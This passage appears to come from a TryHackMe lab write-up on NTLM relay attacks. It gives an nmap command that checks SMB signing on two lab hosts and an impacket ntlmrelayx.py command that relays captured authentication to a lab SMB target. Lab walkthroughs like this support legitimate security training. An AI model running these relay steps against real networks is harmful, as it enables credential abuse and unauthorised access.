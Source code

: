 	* Verify SMB signing enforcement
	
		```
		nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
		```

		![task4-nmap](./images/task4-nmap.png)

	* Set up the NTLM relay on attacker machine
	
		```
		python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -smb2support -t smb://10.200.60.201 -debug
		```

		![task4-relay](./images/task4-relay.png)